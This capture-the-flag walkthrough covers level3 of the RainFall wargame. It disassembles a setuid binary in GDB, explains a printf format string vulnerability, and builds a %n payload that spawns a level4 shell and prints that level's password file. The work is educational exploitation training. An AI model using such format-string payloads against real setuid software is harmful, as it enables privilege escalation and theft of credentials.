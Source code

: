 ## Walkthrough

We list the files in the current home directory.

```bash
level3@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level3 level3   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level3 level3  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level3 level3 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
-rw-r--r--+ 1 level3 level3   65 Sep 23  2015 .pass
-rw-r--r--  1 level3 level3  675 Apr  3  2012 .profile
level3@RainFall:~$ file level3
level3: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV),
 dynamically linked (uses shared libs), for GNU/Linux 2.6.24, 
 BuildID[sha1]=0x09ffd82ec8efa9293ab01a8bfde6a148d3e86131, not stripped
```

The file is owned by **level4** and has the **setuid** bit.

We list the functions inside the executable and analyze their assembly code with **GDB**.

```nasm
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048344  _init
0x08048390  printf
0x08048390  printf@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  fwrite
0x080483b0  fwrite@plt
0x080483c0  system
0x080483c0  system@plt
0x080483d0  __gmon_start__
0x080483d0  __gmon_start__@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  v
0x0804851a  main
0x08048530  __libc_csu_init
0x080485a0  __libc_csu_fini
0x080485a2  __i686.get_pc_thunk.bx
0x080485b0  __do_global_ctors_aux
0x080485dc  _fini
```

There are 2 interesting functions: `main()` and `v()`.

```nasm
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:	push   %ebp
   0x0804851b <+1>:	mov    %esp,%ebp
   0x0804851d <+3>:	and    $0xfffffff0,%esp
   0x08048520 <+6>:	call   0x80484a4 <v>
   0x08048525 <+11>:	leave  
   0x08048526 <+12>:	ret    
End of assembler dump.
```

The `main()` function only calls the `v()` function.

```nasm
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x218,%esp
   0x080484ad <+9>:	mov    0x8049860,%eax
   0x080484b2 <+14>:	mov    %eax,0x8(%esp)
   0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
   0x080484be <+26>:	lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:	mov    %eax,(%esp)
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:	mov    %eax,(%esp)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    0x8049880,%eax
   0x080484e9 <+69>:	mov    %eax,%edx
   0x080484eb <+71>:	mov    $0x8048600,%eax
   0x080484f0 <+76>:	mov    %edx,0xc(%esp)
   0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
   0x080484fc <+88>:	movl   $0x1,0x4(%esp)
   0x08048504 <+96>:	mov    %eax,(%esp)
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	movl   $0x804860d,(%esp)
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave  
   0x08048519 <+117>:	ret    
End of assembler dump.
```

The function:

- Calls `fgets()` to read input into a buffer located at `ebp - 0x208`
- Calls `printf()` to print the buffer to stdout
- Retrieves the value of a global variable stored at memory address `0x804988c` into the `%eax` register
- Compares the value of `%eax` with`64` (`0x40` in hexadecimal)
- If the value is equal to `64` :
    - Prints a message using the `fwrite()` function
    - Calls the system’s shell `/bin/sh`  using the `system()` function.

### Format string vulnerability

This function is subjected to a format string vulnerability which occurs when a user input is improperly used as a format string in functions like `printf()`, allowing attackers to manipulate memory, access sensitive data, or execute arbitrary code.

Our goal is to overwrite the value of the global variable stored at the address `0x804988c`(the one compared to `64`) and replace it with the number 64.

The `printf()` function includes the specifier `%n` which writes the number of characters printed so far into the address provided as its corresponding argument. This allows us to overwrite a specific memory address with the number of characters printed by the format string.

### Converting the address

The global variable (whose value is stored in the `%eax` register and compared to `64`) is located at the address `0x804988c`. To properly inject this address into the format string, we need to represent it in **little-endian** format, asthis is how memory addresses are stored on the target system. The little-endian format for the address `0x804988c` is:  `\x8c\x98\x04\x08` .

**Little-endian** is a way of representing multi-byte data in memory where the **least significant byte** (the "lowest" byte) is stored at the **lowest memory address**, and the **most significant byte** is stored at the highest memory address.

### Overwriting the address

To achieve our goal, we need to craft a string such that the total number of characters printed is `64`. The `%n` specifier will then overwrite the global variable at `0x804988c` with the number `64` (the number of characters printed). Each `%x` will print a 4-byte value, each  `.`  is a 1-byte character and the `%45x` will print 45-byte scharacters (filling with 0 or spaces). This gives us : 

```bash
'.%x.%x.%45x.%n'
```

### Final command
```bash
The final command is :
level3@RainFall:~$ (python -c "print('\x8c\x98\x04\x08' + '.%x.%x.%45x.%n')"; cat) | ./level3 
�.200.b7fd1ac0.                                     b7ff37d0.
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

